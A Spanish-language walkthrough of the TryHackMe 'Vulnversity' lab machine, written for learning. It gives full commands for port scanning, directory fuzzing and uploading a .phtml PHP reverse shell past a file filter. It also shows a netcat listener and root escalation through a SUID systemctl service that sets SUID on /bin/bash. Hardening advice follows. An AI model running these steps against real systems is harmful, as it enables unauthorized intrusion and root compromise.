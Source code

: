 # 🚀 Explotación de Máquina Vulnversity (TryHackMe)

![Nivel: Fácil](https://img.shields.io/badge/Nivel-Fácil-green) ![Tema: Web Exploitation + PrivEsc](https://img.shields.io/badge/Tema-Web%20Exploitation%20%2B%20PrivEsc-blue)

## **Descripción**
Este documento detalla la explotación completa de la máquina **Vulnversity** de TryHackMe, que incluye:
1. Reconocimiento de puertos y servicios
2. Fuzzing de directorios web
3. Bypass de restricciones de subida de archivos
4. Reverse shell PHP
5. Escalada de privilegios mediante abuso de systemctl SUID

**Tiempo estimado**: 30-45 minutos  
**Dificultad**: Fácil  
**Sistema operativo**: Linux

## **Índice**
1. [Reconocimiento](#reconocimiento)
2. [Enumeración Web](#enumeración-web)
3. [Bypass de Subida de Archivos](#bypass-de-subida-de-archivos)
4. [Reverse Shell](#reverse-shell)
5. [Escalada de Privilegios](#escalada-de-privilegios)
6. [Conclusión](#conclusión)

## **Reconocimiento**

### 1. Escaneo de Puertos
```bash
nmap -p- --open -sS -sC -sV --min-rate 5000 -n -vvv -Pn 10.10.140.228
```

**Resultados**:
- **Puerto 3333/tcp**: HTTP - Servidor web (objetivo principal)
- Otros 5 puertos abiertos adicionales

## **Enumeración Web**

### 2. Fuzzing de Directorios
```bash
gobuster dir -u http://10.10.140.228:3333 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```

**Hallazgo crítico**:
- **/internal/**: Directorio que permite subida de archivos

### 3. Descubrimiento de Subdirectorios
- Segundo fuzzing en `/internal/` revela:
- **/uploads/**: Directorio donde se almacenan los archivos subidos

## **Bypass de Subida de Archivos**

### 4. Análisis de Extensiones Permitidas
- El servidor acepta archivos con extensión **.phtml**
- Se utiliza un Reverse Shell en PHP de [PentestMonkey](https://github.com/pentestmonkey/php-reverse-shell)
- Modificaciones: IP y puerto cambiados por los de la máquina atacante

## **Reverse Shell**

### 5. Subida y Ejecución de Payload
- Archivo malicioso subido: `shell.phtml`
- Puesta en escucha con Netcat:
```bash
nc -nlvp 4444
```
- Ejecución accediendo a: `http://10.10.140.228:3333/uploads/shell.phtml`

### 6. Flag de Usuario
```bash
cat /home/bill/user.txt
```
- **User Flag**: `[Redacted]`

### 7. Tratamiento de TTY
```bash
script /dev/null -c bash
# Ctrl+Z
stty raw -echo; fg
reset xterm
export SHELL=bash
export TERM=xterm
```

## **Escalada de Privilegios**

### 8. Enumeración de Binarios SUID
```bash
find / -perm -4000 2>/dev/null
```

**Hallazgo**:
- **/bin/systemctl**: Binario con permisos SUID

### 9. Explotación mediante GTFOBins
```bash
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "chmod +s /bin/bash"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
```

### 10. Obtención de Shell Root
```bash
bash -p
```

### 11. Flag de Root
```bash
cat /root/root.txt
```
- **Root Flag**: `[Redacted]`

## **Conclusión**

### Vulnerabilidades Críticas
1. **Subida de archivos sin validación** adecuada de extensiones
2. **Ejecución de archivos .phtml** en directorio accesible
3. **Permisos SUID peligrosos** en systemctl

### Hardening Recomendado
- Implementar validación estricta de tipos de archivo subidos
- Restringir permisos de ejecución en directorios de uploads
- Eliminar permisos SUID innecesarios de binarios del sistema
- Auditar regularmente los permisos de archivos y directorios

### Técnicas Aplicadas
1. **Escaneo de puertos** con Nmap
2. **Fuzzing de directorios** con Gobuster
3. **Bypass de restricciones** de subida de archivos
4. **Reverse Shell PHP** con .phtml
5. **Abuso de binarios SUID** para escalada de privilegios

---

**Herramientas utilizadas**:
- Nmap
- Gobuster
- Netcat
- Linux commands

**Referencias**:
- [PHP Reverse Shell - PentestMonkey](https://github.com/pentestmonkey/php-reverse-shell)
- [GTFOBins - systemctl](https://gtfobins.github.io/gtfobins/systemctl/)
- [Linux Privilege Escalation](https://book.hacktricks.xyz/linux-hardening/privilege-escalation)

**Tags**: `#TryHackMe #Vulnversity #FileUpload #SUID #PrivEsc #Systemctl`

---

## **Lecciones Aprendidas**
- Las validaciones de subida de archivos deben ser exhaustivas
- Los directorios de uploads nunca deben tener permisos de ejecución
- Los binarios con permisos SUID representan un riesgo significativo
- La enumeración meticulosa es clave para encontrar vectores de ataque

## **Notas Adicionales**
- La extensión .phtml permite ejecución de código PHP
- Systemctl con SUID permite crear servicios maliciosos
- Siempre realizar tratamiento de TTY para shells interactivas

---

## **Comandos Críticos de Explotación**

### Reconocimiento
```bash
nmap -p- --open -sS -sC -sV --min-rate 5000 -n -vvv -Pn 10.10.140.228
```

### Enumeración Web
```bash
gobuster dir -u http://10.10.140.228:3333 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```

### Reverse Shell
```bash
nc -nlvp 4444
```

### Escalada de Privilegios
```bash
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "chmod +s /bin/bash"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
bash -p
```

### Búsqueda de Flags
```bash
find / -name user.txt -o -name root.txt 2>/dev/null | xargs cat
```
